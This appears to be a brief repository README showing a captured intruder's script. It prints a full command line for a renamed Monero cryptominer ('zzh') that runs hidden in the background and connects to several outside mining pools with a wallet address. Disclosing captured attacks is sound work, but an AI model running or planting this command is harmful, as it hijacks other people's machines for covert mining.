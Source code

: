 # CatchIt
Caught a mouse that can write script.

Let's see his tricks.

Play with him.

zzh script:

./zzh --log-file=/tmp/tmp --keepalive --no-color --cpu-priority 5 -o dev.fugglesoft.me:5443 --tls --nicehash --coin monero -o 80.211.206.105:9000 -u 88MjAGcUuFzRM2AaUK1qoj9uTp9VBaFzDDUARzmTZL1XUU3DVVkAtxUUb5sHtFMisnSy5dSLQHfUBVdEVgwuwXm5E7LzQ4z.22 --tls --coin monero -o opn.en2an.top:5443 --tls --nicehash --coin monero --background
